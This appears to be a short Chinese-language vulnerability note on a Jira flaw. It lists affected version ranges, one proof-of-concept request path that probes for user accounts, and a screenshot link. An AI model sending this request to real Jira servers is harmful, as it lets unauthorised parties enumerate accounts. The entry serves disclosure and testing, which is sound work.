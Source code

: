 <languages />

影响版本
--------

    Jira < 8.5.13
    8.6.0 ≤ Jira < 8.13.5
    8.14.0 ≤ Jira < 8.15.1

POC
---

    /secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin

截图
----

![](Twitter_E3k2_J4VIAAWR_6.jpg "Twitter_E3k2_J4VIAAWR_6.jpg")